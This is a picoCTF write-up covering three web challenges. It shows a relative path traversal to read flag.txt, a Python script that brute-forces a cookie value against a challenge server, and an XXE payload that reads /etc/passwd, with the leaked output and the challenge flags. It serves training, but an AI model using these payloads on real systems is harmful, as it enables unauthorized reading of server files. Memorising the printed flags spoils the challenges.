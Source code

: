 # Forbidden Paths

**Flag:** ` picoCTF{7h3_p47h_70_5ucc355_6db46514}`

## Approach

- Since the website filters absolute paths, we can just use relative paths like `../../../../../../flag.txt`.

&nbsp;

&nbsp;

<hr style="border:2px solid gray; background-color: gray">
&nbsp;

&nbsp;

# cookies

**Flag:** `picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}`

## Approach

- When entering the placeholder value of `snickerdoodle`, we can see that it updates the `name` cookie's value to 0. If we modify this cookie to `1`, it sends us to the next page which is for `chocolate chip`.
- Using this information, we can write a simple python script to send POST requests until we get the flag:

Input:
```
import requests

headers = {
    'Content-Type': 'application/x-www-form-urlencoded', 
    'User-Agent': 'Mozilla/5.0',
}

cookies = {
    'name': '0'
}
response = requests.post('http://mercury.picoctf.net:21485/search', headers=headers, cookies=cookies)
while ('picoCTF' not in response.text):
    try:
        response = requests.post('http://mercury.picoctf.net:21485/search', headers=headers, cookies=cookies)
        print(response.status_code)
        # print(response.text)
    except requests.exceptions.RequestException as e:
        print(f"Error: {e}")

    cookies['name'] = str(int(cookies['name']) + 1)
else:
    print(response.text)

```
Output: (trucated)
```
...
        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}</code></p>
        </div>
...
```

## New concepts

1. Sending cookies in the `requests` python module

## References

- https://stackoverflow.com/questions/7164679/how-to-send-cookies-in-a-post-request-with-the-python-requests-library

&nbsp;

&nbsp;

<hr style="border:2px solid gray; background-color: gray">
&nbsp;

&nbsp;

# SOAP

**Flag:** `picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}`

## Approach

- The "Details" buttons on the website send a post request to `/data`

```
<?xml version="1.0" encoding="UTF-8"?><data><ID>2</ID></data>
``` 
```
<strong>Special Info::::</strong> Created By security and privacy experts
```

- The challenge has the tag "XXE" which stands for "XML external entity Injection". Make use of this to add such an exploit to the payload.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data><ID>&file;</ID></data>
```
```
Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}
```

## New concepts

1. XXE exploits

## References

- https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing (Payload)

&nbsp;

&nbsp;

<hr style="border:2px solid gray; background-color: gray">
&nbsp;

&nbsp;

